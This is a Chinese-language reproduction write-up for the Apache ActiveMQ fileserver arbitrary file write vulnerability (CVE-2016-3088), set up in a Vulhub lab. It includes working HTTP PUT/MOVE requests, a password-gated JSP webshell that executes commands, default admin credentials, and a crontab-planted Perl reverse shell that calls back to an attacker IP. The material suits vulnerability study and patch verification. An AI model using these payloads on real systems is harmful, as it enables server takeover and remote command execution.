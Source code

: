 # Apache ActiveMQ任意文件写入漏洞 CVE-2016-3088

## 漏洞描述

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

## 漏洞影响

```
Apache ActiveMQ 5.0.0 – 5.13.2
ActiveMQ在5.12.x~5.13.x版本中，默认关闭了fileserver这个应用
5.14.0版本以后，彻底删除fileserver
```

## 环境搭建

Vulhub搭建及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。

## 漏洞复现

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

分别说一下上述几种利用方法。

### 写入webshell

前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。

默认的ActiveMQ账号密码均为`admin`，首先访问`http://your-ip:8161/admin/test/systemProperties.jsp`，查看ActiveMQ的绝对路径：

![image-20220221144006543](images/202202211440648.png)

然后上传webshell：

```
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 374

<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

移动到web目录下的api文件夹（`/opt/activemq/webapps/api/s.jsp`）中。如果Burpsuite发包不成功，使用Firefox进行修改后发送。

![image-20220221161155286](images/202202211611379.png)

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

shell.jsp已经上传成功：

![image-20220221153448172](images/202202211534227.png)



通过webshell执行命令

![image-20220221154607001](images/202202211546071.png)

### crontab反弹shell

这是一个比较稳健的方法。首先使用Burpsuite上传cron配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则crontab执行会失败）：

```
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

再通过Firefox修改数据包将其移动到`/etc/cron.d/root`：

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

![image-20220221161242402](images/202202211612498.png)

如果上述两个请求都返回204了，说明写入成功。等待反弹shell：

![image-20220221161312608](images/202202211613664.png)

这个方法需要ActiveMQ是root运行，否则也不能写入cron文件。

### 写入jetty.xml或jar

理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。

有的情况下，jetty.xml和jar的所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。

尚未测试。